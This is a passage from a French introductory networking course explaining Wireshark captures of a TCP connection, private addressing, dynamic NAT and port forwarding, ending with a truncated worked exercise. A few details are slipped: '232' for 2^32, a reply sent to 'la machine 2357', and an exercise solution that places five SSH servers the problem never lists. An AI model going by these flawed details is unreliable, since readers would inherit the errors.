Cela prouve aussi que je ne vous ai pas raconté que des bêtises jusqu'à maintenant. :p
Intéressons-nous à la couche 3 :
Détail de la couche 3
Là, c'est plus complexe, car nous n'avons pas encore vu le contenu complet de l'en-tête IP. Cependant, nous pouvons reconnaître en fin d'en-tête les adresses IP source et destination.
Enfin, intéressons-nous à la couche 4 :
Détail de la couche 4
Comme pour la couche 3, nous ne connaissons pas encore tout le contenu de la couche 4 mais nous pouvons reconnaître les ports en début d'en-tête ainsi que les flags en milieu d'en-tête.
On voit d'ailleurs que le flag SYN est positionné, mais Wireshark peut nous donner encore plus de détails en cliquant sur le triangle devant les flags.
Détail des flags
Nous voyons bien ici les 6 flags que nous connaissons, URG, ACK, PSH, RST, SYN et FIN. Parmi ceux-ci, seul le flag SYN est positionné.
Le premier segment de notre connexion est bien un segment SYN de demande d'ouverture de connexion.
Si l'on clique sur le second paquet de la connexion, nous pouvons voir dans la couche 4 les flags SYN et ACK positionnés. Et de la même façon pour le flag ACK dans le troisième.
Notre connexion TCP est donc bien initialisée.
Nous devrions par conséquent avoir dans les prochains paquets les échanges applicatifs, c'est-à-dire les échanges web, de couche 7.
Effectivement, nous pouvons déjà voir que la trame contient une couche supplémentaire après la couche TCP. C'est notre protocole web dans la couche applicative.
Couche applicative dans notre paquet
Nous allons pouvoir cliquer sur le petit triangle pour en développer le contenu.
Contenu applicatif
Nous voyons bien qu'il s'agit d'une requête web vers le Site du Zéro !
Nous pouvons voir ensuite différents paquets échangés entre le client et le serveur du Site du Zéro. Ces paquets peuvent être applicatifs, mais il y a aussi des paquets qui ne contiennent pas de données applicatives.
On appelle ces paquets des paquets de signalisation.
Ils servent à maintenir proprement la connexion entre les deux machines en indiquant en permanence à l'autre machine où nous en sommes de la connexion. C'est ce qui permet de garantir qu'aucune information ne sera perdue lors des échanges. Nous le verrons plus tard en détail.
Une fois que notre navigateur a reçu toutes les informations et que le site s'affiche, il nous reste à clore proprement la connexion TCP.
Comme vous le savez, cela se fait avec la séquence FIN+ACK, FIN+ACK, ACK.
Fermeture de la connexion TCP
Nous pouvons voir en détail les flags FIN et ACK de positionnés dans les paquets.
Flags FIN et ACK en fin de connexion
Notre connexion est bel et bien fermée !
Conclusion
Nous avons pu voir grâce au sniffer Wireshark les paquets qui circulaient sur notre réseau, et même suivre en détail le déroulement d'une connexion TCP qui a bien confirmé ce que nous avions appris.
Vous aurez maintenant la possibilité d'aller voir ce qui se passe, en détail, au niveau réseau, si jamais vous avez des problèmes de connexion.
Le sniffer est un outil indispensable pour un administrateur réseau dès lors qu'il veut comprendre en détail ce qui peut empêcher le bon fonctionnement de celui-ci, donc gardez-le sous la main. Chaque fois que vous aurez du mal à comprendre un mécanisme réseau, ou que vous devrez comprendre en détail ce qui ne marche pas, le sniffer sera votre meilleur allié !
Vous connaissez maintenant les adresses des applications réseau sur notre machine, qui sont les ports.
Vous savez maintenant que la couche 4 contient deux protocoles, TCP et UDP, qui diffèrent, car TCP est en mode connecté.
Et enfin, vous avez pu comprendre concrètement ce qui circulait sur le réseau grâce à l'utilisation d'un sniffer.
Si vous êtes arrivés jusqu'ici en étudiant correctement le cours et en faisant l'effort de bien le comprendre et de mettre en pratique les TP, vous connaissez maintenant le réseau !
Maintenant que nous avons une vision globale des couches réseau et que nous avons fait un peu de pratique, nous allons voir comment rendre nos applications joignables quand elles se situent sur un réseau privé, comme derrière une box chez vous.
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Dans ce chapitre, nous allons voir pourquoi il a été nécessaire de mettre en place la NAT sur Internet, puis comprendre ce que c'est et à quoi elle sert.
Nous verrons ensuite quelques exemples pratiques de mise en place de NAT.
Attention, c'est un chapitre qui n'est pas simple et qui très important, alors prenez bien le temps de comprendre et d'assimiler ce qui y est expliqué !
En fait, la NAT vient répondre à deux problèmes majeurs, le second problème étant engendré par le premier.
Il y a tout d'abord eu un problème de pénurie d'adresses sur Internet auquel une réponse apportée a été de spécialiser certaines plages d'adresses IP pour une utilisation privée. Cela a engendré un second problème qui est de pouvoir accéder à Internet en utilisant ces adresses IP privées.
Examinons-les un par un.
Le problème number one
Nous avons vu qu'Internet était composé de réseaux connectés entre eux.
Mais combien de machines Internet peut-il contenir ?
Y a-t-il une limite ?
Quel serait le facteur limitant ?
En fait, si vous vous souvenez de la couche 3, il y a bien un facteur limitant au nombre de machines possibles sur Internet, c'est le nombre d'adresses IP disponibles.
En effet, une adresse IP est codée sur 4 octets, soit 32 bits. Elle peut donc prendre 232 valeurs, soit environ 4 milliards.
C'est beaucoup... ou pas.
En effet, à l'échelle d'Internet et de sa croissance, 4 milliards c'est bien peu. Et d'ailleurs, nous avons quasiment utilisé tous les blocs d'adresses disponibles sur Internet... Nous ne pouvons plus rajouter de nouvelles machines sur Internet...
Voici des tableaux représentant l'utilisation des blocs d'adresses sur Internet, en 1993, 2000 et 2007. Chaque chiffre correspond au premier octet d'un bloc d'adresses (par exemple la case 52 représente tous les réseaux commençant par 52, soit 52.X.X.X)
Utilisation des blocs d'adresses IP en 1993Utilisation des blocs d'adresses IP en 2000Utilisation des blocs d'adresses IP en 2007
On peut voir sur les images précédentes que, dès 2007, les plages disponibles étaient restreintes. On considère que la totalité des plages étaient utilisées en juin 2012. Aujourd'hui, l'organisme qui gère la distribution des adresses sur Internet utilise tous ses moyens pour libérer certaines grandes plages afin de rendre de nouvelles adresses disponibles, mais la fin est proche...
Quoi ? Comment peut-on garder son calme alors que la fin de l'évolution d'Internet est proche ? :o
Il suffit d'avoir un flegme naturel et extraordinaire. :D
Ou bien il suffit de savoir que la NAT répond à une partie du problème posé par la pénurie d'adresses et surtout qu'un nouveau standard de protocole IP est en cours de mise en place et réglera ce problème. Il s'agit d'IPv6, que nous verrons un peu plus tard.
La solution temporaire, l'adressage privé
Les personnes qui géraient Internet se sont dit à un moment donné que, vu que certains réseaux étaient privés et que les machines sur ces réseaux n'avaient pas besoin d'être jointes depuis Internet (elles étaient de simples clients, mais pas des serveurs), il n'était pas nécessaire de leur fournir une adresse IP publique à chacune d'entre elles.
Ainsi, on s'est dit qu'on pourrait donner des adresses IP privées à ces machines.
Euh... C'est quoi, une adresse privée ?
C'est une adresse qui a été réservée pour une utilisation privée.
En gros, on a réservé une certaine plage d'adresses pour une utilisation privée. Cette plage d'adresses n'est donc pas utilisée sur Internet, elle est réservée pour tous les réseaux du monde entier qui n'ont pas besoin d'être joints depuis Internet.
Par exemple, dans mon école, les élèves ont besoin d'accéder à Internet, mais ne font pas tourner de services qui ont besoin d'être accessibles. Un adressage privé est donc tout à fait adapté !
Mais comment ont été choisies ces adresses ?
La RFC 1918
Comme nous l'avons vu dans le chapitre sur l'adressage IP, la RFC 1918 précise les adresses à utiliser sur un réseau local.
Ce document dit en gros que si vous voulez créer un réseau local, vous devez utiliser des adresses réservées pour un réseau privé parmi les suivantes:
10.0.0.0/8
172.16.0.0/12
192.168.0.0/16
Voilà, vous savez maintenant quelles adresses utiliser sur votre réseau local. Toutefois, la plupart du temps, c'est votre box qui vous donne une adresse et qui vous impose l'utilisation d'une adresse parmi ces plages.
Mais que se passe-t-il si l'on ne respecte pas les plages indiquées par la RFC ?
Déjà, ce n'est pas bien de ne pas respecter les normes d'Internet ! :colere2:
Cependant, ça fonctionnera... ou presque.
Vous arriverez à aller partout sur Internet, sauf sur les réseaux à qui appartiennent réellement les adresses que vous avez utilisées.
Ce n'est pas clair ? Prenons un exemple.
Vous venez de recevoir votre tout nouveau routeur, et vous souhaitez connecter entre elles vos machines chez vous. Au moment de choisir un adressage pour le réseau, vous prenez arbitrairement le réseau 74.125.230.0/24 (c'est un peu tordu comme choix, mais bon :o )
Vous branchez les machines entre elles et essayez de les pinguer... ça marche !
Vous configurez le routeur comme passerelle par défaut, vous le branchez à Internet et essayez de naviguer... ça marche encore !
Cool ! Tout semble marcher à merveille.
Vous jouez à vos jeux préférés, envoyez et recevez vos mails, tout va bien.
Puis, vous essayez d'aller sur Google pour faire une recherche et là, patatras, ça ne marche pas !
Tout fonctionne, sauf Google. o_O
Que se passe-t-il ?
Sans le savoir, vous avez choisi le même réseau que celui des serveurs de Google 74.125.230.0/24. C'est ce qui explique que vous ne puissiez plus les joindre désormais. Nous allons voir ce qui se passe exactement.
Regardons ce qui se passe au niveau de votre machine.
Pour mieux comprendre, regardons notre table de routage. Elle doit ressembler à cela :
Table de routage de notre machine
Réseau à joindre
passerelle
74.125.230.0/24
74.125.230.1
défaut
La box !
Ainsi, quand nous essayons de nous connecter à www.google.fr qui a comme adresse IP 74.125.230.84, notre table de routage nous dit qu'il faut rester sur le réseau local. Donc notre requête ne partira pas sur Internet et nous n'aurons jamais de réponse de Google.
Le fait d'avoir choisi arbitrairement une plage d'adresses en dehors de celles préconisées par la RFC 1918 nous empêche d'accéder aux vrais réseaux qui possèdent ces adresses.
À l'inverse, étant donné que les réseaux de la RFC 1918 n'appartiennent à personne sur Internet, nous sommes sûrs de ne pas nous priver d'accès à quelque réseau que ce soit en les choisissant.
Vous saurez donc maintenant choisir proprement vos adresses pour vos réseaux si vous devez en créer.
Mais revenons à nos moutons et à notre second problème !
Le problème number two !
Nous avons compris que la NAT allait permettre à nos machines possédant des adresses privées sur notre réseau local d'aller quand même sur Internet comme si elles possédaient des adresses IP publiques.
Description du problème
Imaginons que vous êtes chez vous, derrière votre box, avec un adressage privé en 192.168.0.0/24.
Votre machine a comme adresse 192.168.0.1/24.
Voici ce qui se passerait si nous n'avions pas de NAT et que nous voulions joindre un site sur Internet comme www.siteduzero.fr qui a comme adresse IP 217.70.184.38 au moment de ma requête.
Votre machine fabrique une jolie trame à envoyer sur le réseau avec le contenu suivant:
Cette trame va, par la suite, aller de routeur en routeur sur Internet en fonction de son adresse IP destination qui est ici 217.70.184.38, et la trame va donc bien aller jusqu'à www.siteduzero.fr.
Tout se passe bien, ouf !
Mais attention au retour...
Le Site du Zéro va nous répondre, à l'adresse spécifiée comme adresse IP source dans le datagramme d'origine...
Et patatras, cette adresse est une adresse privée (192.168.0.1) qui n'appartient à personne sur Internet et qui ne peut donc pas être routée !
Notre trame va donc arriver à un routeur au cœur d'Internet, qui va la bloquer, car il sait qu'une adresse privée n'est pas censée se balader sur Internet.
Dans ce cas, nous n'aurons jamais notre réponse de la part de Google. :(
De manière générale, nous n'aurons jamais de réponses à des requêtes envoyées sur Internet quand nous utilisons des adresses privées...
Il va falloir trouver une solution à ce problème, et cette solution, c'est la NAT !
Fatigué(e) de lire sur un écran ? Découvrez ce cours en livre.
Nous avons identifié le problème. Quand un paquet est envoyé sur Internet, la réponse ne revient pas, car l'adresse IP destination est une adresse privée.
Or, cette adresse IP destination dans la réponse est en fait l'adresse IP source qui était indiquée dans la requête !
Il faudrait donc que cette adresse IP source, qui est privée, puisse être remplacée par une adresse publique. C'est là tout le principe de la NAT !
Un peu de vocabulaire
Il existe deux types de NAT différents, la NAT dynamique et la NAT statique.
La NAT dynamique associe n adresses privées à une seule adresse publique. Ainsi, on peut connecter n machines en n'utilisant qu'une seule adresse publique. On économise donc des adresses.
En NAT statique, on fixe une adresse publique pour chaque adresse privée. On n'économise donc... rien du tout !
Dans la suite du cours, nous ne nous intéresserons qu'à la NAT dynamique, la NAT statique étant aujourd'hui très peu utilisée, car elle ne répond pas au problème de la pénurie d'adresses IP.
Fonctionnement de la NAT dynamique
Il nous faut maintenant changer l'adresse IP source dans un paquet envoyé sur Internet pour y mettre une adresse IP publique.
Mais laquelle choisir ?
C'est simple, nous allons tout simplement utiliser l'adresse IP du routeur qui fait la liaison entre notre réseau privé et Internet, réseau public. En effet, ce routeur possède une adresse IP publique du côté d'Internet.
Prenons l'exemple de votre réseau chez vous, derrière votre box Internet.
Réseau local derrière box Internet
Les adresses locales sont sur le réseau 192.168.0.0/24 qui est bien un réseau privé. On voit bien aussi l'adresse 82.238.22.47 qui est l'adresse publique de notre box (choisie au hasard)
Regardons maintenant ce qui se passe dans le cas de la NAT lors de l'envoi d'un paquet sur Internet.
Étape 1, envoi sur le réseau local d'une requête au Site du Zéro :
On voit bien ici que l'adresse IP source a été changée pour mettre celle de la box.
Ainsi, notre paquet va aller jusqu'au Site du Zéro, et celui-ci va répondre à l'adresse IP 82.238.22.47 qui est celle de notre box.
Mais comment la box va pouvoir renvoyer le paquet à la bonne machine sur le réseau local ? Que se passe-t-il si plusieurs machines font des requêtes en même temps sur le Site du Zéro ?
C'est une très bonne question !
Pour l'instant, notre box n'a aucun moyen de savoir à quelle machine en interne elle doit renvoyer le paquet, mais nous allons voir que nous pouvons utiliser les ports de la couche 4 pour ajouter une information qui nous permettra de savoir quelle machine a envoyé la requête !
Utilisation des ports de la couche 4
Lors de l'établissement d'une connexion, que ce soit en TCP ou en UDP, un port source est choisi par la machine qui émet la requête. Nous allons nous servir de ce port pour identifier la machine qui a émis la requête à l'origine. Sachant que ce port est choisi aléatoirement entre 1024 et 65535.
Si nous reprenons l'envoi de la trame et y ajoutons les informations de couche 4, cela donne:
Adresse MAC Box
Adresse MAC de 192.168.0.1
Protocole de couche 3
...
192.168.0.1
217.70.184.38
Port source 10277
Port destination 80
CRC
Trame Ethernet en sortie de la machine 192.168.0.1
La box va recevoir ce paquet et pouvoir noter la correspondance entre l'adresse IP source 192.168.0.1 et le port source utilisé 10277.
En fait, elle note même un quadruplet d'informations dans une table, la table NAT !
Table NAT
@IP SRC, @IP DST, port SRC, port DST
@IP SRC, @IP DST, port SRC, port DST
192.168.0.1, 217.70.184.38, 10277, 80
82.238.22.47, 217.70.184.38, 10277, 80
On a d'un côté les informations sur le réseau local, et de l'autre les informations à la sortie de la box, après que la NAT ait eu lieu.
Regardons maintenant le paquet renvoyé par la box:
Adresse MAC routeur sur Internet
Adresse MAC box
Protocole de couche 3
...
82.238.22.47
217.70.184.38
Port source 10277
Port destination 80
CRC
Trame Ethernet en sortie de la box
Le Site du Zéro va répondre à cette requête, et il va envoyer un paquet à notre box :
Adresse MAC routeur sur Internet
Adresse MAC site du zéro
Protocole de couche 3
...
217.70.184.38
82.238.22.47
Port source 80
Port destination 10277
CRC
Trame Ethernet en sortie du Site du Zéro
La box recevant ce paquet va pouvoir regarder dans sa table NAT et voir que celui-ci doit être naté en sens inverse et renvoyé à 192.168.0.1.
Table NAT
@IP SRC, @IP DST, port SRC, port DST
@IP SRC, @IP DST, port SRC, port DST
192.168.0.1, 217.70.184.38, 10277, 80
82.238.22.47, 217.70.184.38, 10277, 80
Ainsi, notre machine 192.168.0.1 qui a envoyé une requête sur Internet, avec son adresse IP privée, va quand même pouvoir recevoir la réponse.
N'est-ce pas magnifique ? :p
Enfin, presque...
Nous n'en avons pas encore tout à fait fini avec la NAT dynamique.
Imaginons, par le plus grand des hasards, que deux machines sur notre réseau local fassent une requête vers le Site du Zéro, en utilisant le même port source.
La table NAT de la box serait la suivante:
Table NAT
@IP SRC, @IP DST, port SRC, port DST
@IP SRC, @IP DST, port SRC, port DST
192.168.0.1, 217.70.184.38, 10277, 80
82.238.22.47, 217.70.184.38, 10277, 80
192.168.0.2, 217.70.184.38, 10277, 80
82.238.22.47, 217.70.184.38, 10277, 80
On se rend alors compte que les informations à droite dans le tableau sont parfaitement identiques.
Au retour d'un paquet appartenant à l'une ou l'autre des connexions, la box n'aura aucun moyen de savoir si c'est 192.168.0.1 ou 192.168.0.2 qui doit recevoir la réponse...
Donc le choix du port source comme élément différenciateur n'est pas suffisant. Il va encore falloir trouver une astuce.
La box entre en jeu
En fait, il y a un moyen simple de s'assurer que toutes les requêtes qui sortiront n'auront jamais le même port source, il suffit que ce soit la box qui le fixe.
Ainsi, la box modifiera à la fois l'adresse IP source ET le port source.
Par rapport à notre cas précédent, ça donnerait la table NAT suivante :
Table NAT
@IP SRC, @IP DST, port SRC, port DST
@IP SRC, @IP DST, port SRC, port DST
192.168.0.1, 217.70.184.38, 10277, 80
82.238.22.47, 217.70.184.38, 2356, 80
192.168.0.2, 217.70.184.38, 10277, 80
82.238.22.47, 217.70.184.38, 2357, 80
On voit maintenant que lorsqu'un paquet reviendra avec comme port destination 2356, la box saura qu'il s'agit d'un paquet à destination de 192.168.0.1 et que, lorsqu'il reviendra avec comme port destination 2357, ce sera pour la machine 2357.
Récapitulons un peu ce que nous venons de voir.
La NAT dynamique récapitulée
Nous avons vu que la NAT dynamique permettait à des machines connectées sur un réseau local à adressage privé d'accéder à Internet en utilisant l'adresse IP publique du routeur qui fait la liaison entre le réseau interne et Internet.
Ainsi, on économise beaucoup d'adresses IP, car on n'utilise qu'une seule adresse publique pour toutes les machines qui sont sur le réseau privé.
Mais y a-t-il une limite au nombre de machines sur le réseau privé ?
Théoriquement, oui.
Étant donné que la box ne peut allouer que 65535 ports, s'ils sont tous utilisés, la box ne peut pas accepter de nouvelle connexion.
Ainsi, si l'on a 65535 machines qui ouvrent chacune une connexion, on atteint les limites.
Or, la plupart du temps, les machines ont plus d'une seule connexion ouverte. En considérant qu'une machine ouvre en moyenne une dizaine de connexions en parallèle, on peut estimer raisonnablement pouvoir brancher 6000 machines derrière un routeur qui fait de la NAT.
En pratique, avoir une unique adresse IP pour 6000 machines est quand même rare, car les entreprises qui ont autant de machines ont souvent plusieurs adresses IP publiques à leur disposition et cette limite due à la NAT n'est quasiment jamais étudiée ni atteinte.
Quoi qu'il en soit, pour ce qui vous intéresse, vous ne devriez jamais atteindre cette limite chez vous, derrière votre box. :-°
Des problèmes encore des problèmes
Et des solutions !
En effet, depuis le début de notre cours, nous avons souvent identifié des problèmes mais nous avons réussi chaque fois à y apporter des solutions. :D
Nous avons vu que nous nous servions des ports pour réaliser la NAT dynamique. Les ports existent en TCP et UDP, mais quid d'autres protocoles qui n'ont pas de ports ? Je pense à ICMP que nous avons vu, ou encore à ARP…
En fait, des solutions spécifiques sont mises en place pour à peu près tous les protocoles existants. On étudie le contenu des en-têtes pour y trouver des éléments qui sont propres à chaque connexion, et on peut alors suivre les connexions individuellement.
Qu'en est-il du protocole ARP ?
Les plus perspicaces d'entre vous l'auront compris. ARP n'est pas concerné par la NAT vu que c'est un protocole local basé sur le broadcast. Il ne passe donc jamais à travers un routeur et n'est donc jamais concerné par la NAT.
Cependant, nous avons encore des problèmes à étudier, et un problème majeur !
Accéder à Internet c'est bien, mais pouvoir être joint c'est mieux !
En effet, grâce à la NAT dynamique, nous pouvons sortir sur Internet en ayant une adresse privée.
Par contre, il n'est pas possible à quelqu'un de nous joindre de l'extérieur.
Nous n'avons qu'une seule adresse publique et n adresses privées. Ainsi, lors de l'établissement d'une connexion depuis l'extérieur, le routeur n'a aucun moyen de savoir pour quelle machine privée est la requête.
Quand c'est une machine interne qui initialise la connexion, le routeur peut noter les informations de connexion et ainsi identifier le paquet au retour. Par contre, quand le premier paquet d'une connexion arrive de l'extérieur, le routeur n'a aucun moyen de savoir pour qui est la requête. :(
Sens de connexion possible avec la NAT
Comme toujours, nous allons trouver une solution à ce problème !
Imaginons que nous faisons tourner un service sur notre machine sur le réseau local privé. Par exemple, un serveur web qui tourne sur le port 80 de la machine 192.168.0.1.
Réseau local avec serveur web
Si quelqu'un veut accéder à notre réseau, la seule porte d'entrée est l'adresse IP publique 82.238.22.47. S'il s'adresse au port 80 de ce routeur, il y a deux cas possibles :
soit il y a un serveur web sur le routeur et la personne tombera dessus ;
soit il n'y a pas de serveur web et le routeur renverra une erreur ICMP port unreachable.
Mais dans les deux cas, la personne n'arrivera pas sur notre joli site web local.
Il y a pourtant bien une solution, il est possible de dire à notre routeur de rediriger la requête spécifiquement vers notre machine 192.168.0.1 en fonction du port sur lequel la requête a lieu. Cela s'appelle le port forwarding !
Le port forwarding
Principe
Pour notre exemple précédent, nous allons dire au routeur que tout paquet arrivant sur son port 80 devra être redirigé vers la machine d'adresse 192.168.0.1 sur le port 80.
Table de port forwarding
@IP externe 82.238.22.47
Port externe TCP 80
@IP interne 192.168.0.1
Port interne TCP 80
Port forwarding vers notre serveur web
Ainsi, toute personne accédant à notre adresse IP publique sur le port 80 sera automatiquement redirigée, sans même le savoir, vers notre serveur web local.
Notre serveur peut ainsi, grâce au port forwarding, être joignable depuis l'extérieur.
Par conséquent, si vous avez plusieurs services sur votre réseau local, comme par exemple un serveur FTP ou un serveur de jeu, vous pouvez tout à fait les rendre joignables depuis l'extérieur du réseau. Chacun sera joignable sur un port particulier.
Ce mécanisme est très intéressant, car seuls les services que nous voulons rendre joignables le seront, et cela présente un gros intérêt au niveau sécurité.
Le port forwarding, c'est sécurise !
Le fait d'utiliser de la NAT dynamique ainsi que le port forwarding augmente le niveau de sécurité de votre réseau.
Euh, mais moi j'ai jamais fait de sécurité ! Ça consiste en quoi ?
Le principe pour votre ordinateur est à peu près le même que pour votre maison. Vous pouvez avoir beaucoup de portes et de fenêtres, mais plus il y en aura et plus il y aura de possibilités pour entrer dans votre maison.
Pour un ordinateur, c'est pareil, chaque port ouvert sera une porte ouverte potentielle vers votre ordinateur.
Quand il n'y avait pas de NAT, chaque machine était connectée à Internet avec sa propre adresse IP publique. Ses 65535 ports étaient donc tous potentiellement accessibles... et constituaient potentiellement des portes ouvertes vers la machine.
Attention, je ne dis pas que les 65535 ports étaient accessibles. Seuls ceux qui étaient en écoute l'étaient, car une application tournait derrière. Seulement, peu de gens avaient conscience de tous les ports ouverts sur leur machine.
Prenons notre exemple précédent et regardons les conséquences.
Nous faisons tourner un serveur web sur notre machine 192.168.0.1, mais regardons tous les ports en écoute sur cette machine (en imaginant, pour une fois, que cette machine est sous Windows)
Nous voyons ici qu'il y a beaucoup plus de ports ouverts que nous pouvions le penser !
En effet, Windows ouvre un certain nombre de ports pour pouvoir partager des fichiers sur le réseau ou fournir d'autres services par défaut.
Quand il n'y avait pas de NAT, notre machine était donc accessible directement depuis Internet, et tous ces ports étaient autant de portes ouvertes vers elle.
D'ailleurs, beaucoup d'attaques ont été menées à cette époque, marquée notamment par la recrudescence des vers.
Il y a eu par exemple, pour les plus connus, MS Blaster ou SQL Slammer. Autant de vers qui ont paralysé énormément de machines et de services sur Internet quand ils sont apparus.
Si, à l'époque, les machines avaient été derrière la NAT, la diffusion de ces vers n'aurait pas été aussi importante, car les ports des machines n'auraient pas pu être atteints depuis Internet.
Un des intérêts majeurs de la NAT et du port forwarding est de ne rendre accessible QUE ce qui est nécessaire.
Dans notre exemple, nous n'aurions mis en place du port forwarding que pour le port 80 pour rendre accessible notre serveur web. Ainsi, tout autre port potentiellement vulnérable n'aurait pas été joignable depuis Internet, et les vers ou autres virus n'auraient pas pu se répandre de la sorte.
Ainsi, votre box, faisant de la NAT, protège vos machines sur votre réseau local. Merci la box ! :D
Nous avons donc vu comment mettre en place de la NAT dynamique afin de donner accès à Internet à des machines ayant des adresses privées.
Nous avons aussi vu comment rendre joignables nos machines sur un réseau privé grâce au port forwarding.
Enfin, nous avons vu comment la NAT et le port forwarding avaient indirectement amélioré le niveau de sécurité d'Internet et de tous les réseaux privés.
Le tableau semble bien rose, mais il y a pourtant un inconvénient majeur au port forwarding...
La limite du port forwarding
En effet, nous avons vu dans notre exemple que nous pouvons rendre notre serveur web joignable sur Internet.
Mais que se passe-t-il si nous avons deux serveurs web sur notre réseau local ?
Eh bien c'est la catastrophe !
Étant donné que nous n'avons qu'un seul port 80 disponible, nous ne pourrons pas le rediriger vers nos deux serveurs web, il va falloir faire un choix.
Au pire, nous pourrions rediriger un autre port que le port 80, comme le 81, mais cela ne respecterait pas les standards d'Internet.
Ce n'est donc pas une solution satisfaisante.
Malheureusement pour nous, nous atteignons une limite du port forwarding qui limite à un seul serveur sur le réseau local par port disponible.
Donc un seul serveur web, un seul serveur ssh, un seul serveur DNS, etc.
C'était trop beau. :o
Toutefois, je vais vous rassurer, il existe quelques solutions qui permettent, pour certains services, de mettre un nombre illimité de serveurs derrière une unique adresse IP publique. Mais, étant donné que ces solutions sont applicatives, de couche 7, nous ne les verrons pas dans ce cours dédié au réseau.
Il est temps maintenant de mettre vos connaissances en pratique !
Exercice pas si facile !
Énoncé
Vous venez d'être embauché en tant qu'administrateur systèmes et réseaux dans l'entreprise Zéro & Cie.
L'ancien administrateur a dû partir précipitamment et vous a laissé un projet à réaliser.
La société possède sur son réseau privé 10.0.0.0/23 quelques serveurs :
4 serveurs web (port TCP 80) (10.0.1.6,10.0.1.7,10.0.1.8,10.0.1.9) ;
et 2 serveurs DNS (port UDP 53) (10.0.1.10,10.0.1.11).
De plus, il y a environ 250 salariés dans l'entreprise qui ont leurs adresses de 10.0.0.1 à 10.0.0.254.
L'ancien administrateur a acheté une plage d'adresses sur Internet qui est la suivante:
194.34.56.0/29
On vous demande d'écrire la table de port forwarding du routeur qui fera la liaison entre le réseau privé et Internet. Sachant que ce routeur pourra donc avoir toutes les adresses du réseau public sur son interface réseau externe.
À vous de dire si cette mise en place est possible, et si oui, de proposer votre solution de NAT dynamique et port forwarding.
Pour résoudre cet exercice, il va falloir prendre les problèmes un par un.
Déjà, nous allons calculer l'étendue de la plage d'adresses publiques à notre disposition.
En écrivant le masque en décimal, nous avons :
194.34.56.0/255.255.255.248
En utilisant la méthode du nombre magique, nous trouvons un nombre magique de 8 (256-248)
La première adresse du réseau étant 194.34.56.0, la dernière sera 0+8-1=7 soit 194.34.56.7
Nous aurons donc sur ce réseau 8 adresses allant de 194.34.56.0 à 194.34.56.7. Sachant que 194.34.56.0 sera l'adresse de réseau et 194.34.56.7 l'adresse de broadcast, il nous restera 6 adresses pour faire notre port forwarding.
Nous avons 5 serveurs SSH, 4 serveurs web et deux serveurs DNS, ce qui fait 11 serveurs au total.
Mais comment on va pouvoir faire entrer nos 11 serveurs avec seulement 6 adresses ?
C'est possible !
Si vous avez bien compris la limitation liée au port forwarding, on ne peut avoir qu'un seul serveur d'un certain type (SSH ou web ou DNS) par adresse IP.
Or, dans cet exercice nous avons au maximum 5 serveurs d'un même type à rediriger, cela devrait donc fonctionner.
Il faudra simplement rediriger plusieurs serveurs de types différents sur une même adresse IP.
Vous comprendrez peut-être mieux avec la solution. ;)
Nous avons deux choix :
commencer par rediriger tous les serveurs de même type, par exemple commencer par placer tous les serveurs SSH ;
commencer par chaque adresse IP.
Quoi qu'il en soit, nous arriverons de toute façon au même résultat. Nous allons choisir le second choix pour que vous compreniez bien le principe.
On commence par la première adresse IP publique que nous avons à notre disposition. Nous allons rediriger depuis cette adresse un serveur de chaque type, étant donné que nous avons plus d'une seule adresse IP :
Table de port forwarding
@IP externe 194.34.56.1
Port externe TCP 22 (SSH)
@IP interne 10.0.1.1
Port interne TCP 22
@IP externe 194.34.56.1
Port externe TCP 80 (web)
@IP interne 10.0.1.6
Port interne TCP 80
@IP externe 194.34.56.1
Port externe UDP 53 (DNS)
@IP interne 10.0.1.10
Port interne UDP 53
Nous utilisons donc une seule adresse IP publique parmi nos 6 adresses disponibles pour rediriger 3 services différents (SSH, web et DNS) vers trois serveurs différents !
Nous pouvons maintenant passer à la seconde adresse IP publique qui va, elle aussi, accueillir trois services différents :
Table de port forwarding
@IP externe 194.34.56.1
Port externe TCP 22 (SSH)
@IP interne 10.0.1.1
Port interne TCP 22
@IP externe 194.34.56.1
Port externe TCP 80 (web)
@IP interne 10.0.1.6
Port interne TCP 80
@IP externe 194.34.56.1
Port externe UDP 53 (DNS)
@IP interne 10.0.1.10
Port interne UDP 53
@IP externe 194.34.56.2
Port externe TCP 22 (SSH)
@IP interne 10.0.1.2
Port interne TCP 22
@IP externe 194.34.56.2
Port externe TCP 80 (web)
@IP interne 10.0.1.7
Port interne TCP 80
@IP externe 194.34.56.2
Port externe UDP 53 (DNS)
@IP interne 10.0.1.11
Port interne UDP 53
Vu que nous avons déjà placé nos 2 serveurs DNS, il n'y aura plus besoin de placer que deux services différents (SSH et web) sur la troisième adresse IP publique disponible :
Table de port forwarding
@IP externe 194.34.56.1
Port externe TCP 22 (SSH)
@IP interne 10.0.1.1
Port interne TCP 22
@IP externe 194.34.56.1
Port externe TCP 80 (web)
@IP interne 10.0.1.6
Port interne TCP 80
@IP externe 194.34.56.1
Port externe UDP 53 (DNS)
@IP interne 10.0.1.10
Port interne UDP 53
@IP externe 194.34.56.2
Port externe TCP 22 (SSH)
@IP interne 10.0.1.2
Port interne TCP 22
@IP externe 194.34.56.2
Port externe TCP 80 (web)
@IP interne 10.0.1.7
Port interne TCP 80
@IP externe 194.34.56.2
Port externe UDP 53 (DNS)
@IP interne 10.0.1.11
Port interne UDP 53
@IP externe 194.34.56.3
Port externe TCP 22 (SSH)
@IP interne 10.0.1.3
Port interne TCP 22
@IP externe 194.34.56.3
Port externe TCP 80 (web)
@IP interne 10.0.1.8
Port interne TCP 80
Et nous pouvons continuer avec les services restants, ce qui nous donne une table de port forwarding finale :
Table de port forwarding
@IP externe 194.34.56.1
Port externe TCP 22 (SSH)
@IP interne 10.0.1.1
Port interne TCP 22
@IP externe 194.34.56.1
Port externe TCP 80 (web)
@IP interne 10.0.1.6
Port interne TCP 80
@IP externe 194.34.56.1
Port externe UDP 53 (DNS)
@IP interne 10.0.1.10
Port interne UDP 53
@IP externe 194.34.56.2
Port externe TCP 22 (SSH)
@IP interne 10.0.1.2
Port interne TCP 22
@IP externe 194.34.56.2
Port externe TCP 80 (web)
@IP interne 10.0.1.7
Port interne TCP 80
@IP externe 194.34.56.2
Port externe UDP 53 (DNS)
@IP interne 10.0.1.11
Port interne UDP 53
@IP externe 194.34.56.3
Port externe TCP 22 (SSH)
@IP interne 10.0.1.3
Port interne TCP 22
@IP externe 194.34.56.3
Port externe TCP 80 (web)
@IP interne 10.0.1.8
Port interne TCP 80
@IP externe 194.34.56.4
Port externe TCP 22 (SSH)
@IP interne 10.0.1.4
Port interne TCP 22
@IP externe 194.34.56.4
Port externe TCP 80 (web)
@IP interne 10.0.1.9
Port interne TCP 80
@IP externe 194.34.56.5
